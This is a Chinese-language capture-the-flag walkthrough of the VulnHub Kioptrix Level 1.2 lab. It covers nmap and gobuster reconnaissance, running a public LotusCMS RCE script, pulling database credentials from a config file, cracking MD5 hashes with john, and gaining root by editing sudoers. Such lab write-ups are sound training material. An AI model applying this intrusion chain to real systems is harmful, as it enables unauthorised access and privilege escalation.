

> https://www.vulnhub.com/entry/kioptrix-level-12-3,24/
>
> **Download (Mirror)**: https://download.vulnhub.com/kioptrix/KVM3.rar

## 信息收集

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap --min-rate 1000 -p- 10.10.10.31                 
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-15 20:57 EDT
Nmap scan report for bogon (10.10.10.31)
Host is up (0.0019s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 00:0C:29:75:D9:25 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 4.20 seconds
                                                                                                                                                                                                                    
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap -sT -sV -sC -O -p22,80 10.10.10.31     
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-15 20:57 EDT
Nmap scan report for bogon (10.10.10.31)
Host is up (0.00020s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 4.7p1 Debian 8ubuntu1.2 (protocol 2.0)
| ssh-hostkey: 
|   1024 30e3f6dc2e225d17ac460239ad71cb49 (DSA)
|_  2048 9a82e696e47ed6a6d74544cb19aaecdd (RSA)
80/tcp open  http    Apache httpd 2.2.8 ((Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch)
|_http-server-header: Apache/2.2.8 (Ubuntu) PHP/5.2.4-2ubuntu5.6 with Suhosin-Patch
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: Ligoat Security - Got Goat? Security ...
MAC Address: 00:0C:29:75:D9:25 (VMware)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6
OS details: Linux 2.6.9 - 2.6.33
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.54 seconds

```

指定漏洞脚本扫描

```bash
┌──(kali㉿kali)-[~/Desktop]
└─$ sudo nmap --script=vuln  -p22,80 10.10.10.31       
sudo: unable to resolve host kali: Name or service not known
Starting Nmap 7.93 ( https://nmap.org ) at 2024-03-15 20:59 EDT
Nmap scan report for bogon (10.10.10.31)
Host is up (0.00020s latency).

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
|_http-vuln-cve2017-1001000: ERROR: Script execution failed (use -d to debug)
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-trace: TRACE is enabled
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
| http-enum: 
|   /phpmyadmin/: phpMyAdmin
|   /cache/: Potentially interesting folder
|   /core/: Potentially interesting folder
|   /icons/: Potentially interesting folder w/ directory listing
|   /modules/: Potentially interesting directory w/ listing on 'apache/2.2.8 (ubuntu) php/5.2.4-2ubuntu5.6 with suhosin-patch'
|_  /style/: Potentially interesting folder
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
MAC Address: 00:0C:29:75:D9:25 (VMware)

Nmap done: 1 IP address (1 host up) scanned in 320.90 seconds
```

枚举出了一些目录,`phpmyadmin,cache,core,icons,modules`	

尝试做目录爆破

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Kioptrix1.2]
└─$ sudo gobuster dir -u http://10.10.10.31 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/modules              (Status: 301) [Size: 351] [--> http://10.10.10.31/modules/]
/gallery              (Status: 301) [Size: 351] [--> http://10.10.10.31/gallery/]
/data                 (Status: 403) [Size: 322]
/core                 (Status: 301) [Size: 348] [--> http://10.10.10.31/core/]
/style                (Status: 301) [Size: 349] [--> http://10.10.10.31/style/]
/cache                (Status: 301) [Size: 349] [--> http://10.10.10.31/cache/]
/phpmyadmin           (Status: 301) [Size: 354] [--> http://10.10.10.31/phpmyadmin/]
/server-status        (Status: 403) [Size: 331]
Progress: 220560 / 220561 (100.00%)
===============================================================
Finished
===============================================================
```

## Web渗透

发现网站是`LotusCMS`


找这个cms的公开漏洞利用


下载到本地


看exp的用法


```bash
──(kali㉿kali)-[~/tools/tmp/Target/Kioptrix1.2]                          
└─$ ./lotusRCE.sh 10.10.10.31 /
```


使用python获取交互式shell

但是不能清屏，提示说`TERM environment variable not set`

```bash
export TERM=xterm-color
```


## 权限提升


浏览器中访问，发现是一个登录界面


`gconfig.php`中发现了数据库的密码


试着去ssh一下，看密码对不对


密码不是root用户的密码，在前期目录扫描的时候有`phpmyadmin`界面，去登录一下数据库吧


登录成功！

也可以在获取的第权限shell中登录mysql


用获取到的admin密码登录`gadmin`

再看看数据库中获取到的两个加密hash值是用什么加密的


结果显示`md5`

### john解密

```bash
┌──(kali㉿kali)-[~/tools/tmp/Target/Kioptrix1.2]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 2 password hashes with no different salts (Raw-MD5 [MD5 256/256 AVX2 8x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
starwars         (?)
Mast3r           (?)
2g 0:00:00:00 DONE (2024-03-15 21:59) 2.816g/s 15258Kp/s 15258Kc/s 15259KC/s Maswhit002..MashPt34
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

登录`dreg`，没有sudo权限



登第二个用户


查看家目录下的文件，提示用`ht`这个工具


### ht编辑器写sudoers文件

> F3打开文件目录切换
>
> F2保存
>
> ESC退出


加一个bash环境，保存，退出


查看成功写进去没有


可以看到是成功写进sudoers了

### 提权


## 总结

- nmap扫描，开放22和80端口，80端口优先级高
- web页面发现LotusCMS，公开漏洞利用获取初始权限
- 在获取到的低权限中发现`gallery`下发现`gadmin,gconfig.php`，发现mysql的root密码，登录mysql，发现内容管理系统的用户
- 识别hash，john破解hash
- ssh登录，sudo -l尝试提权
- ht编辑器改写sudoers，给`loneferret`用户追加`bash`环境
- 拿下root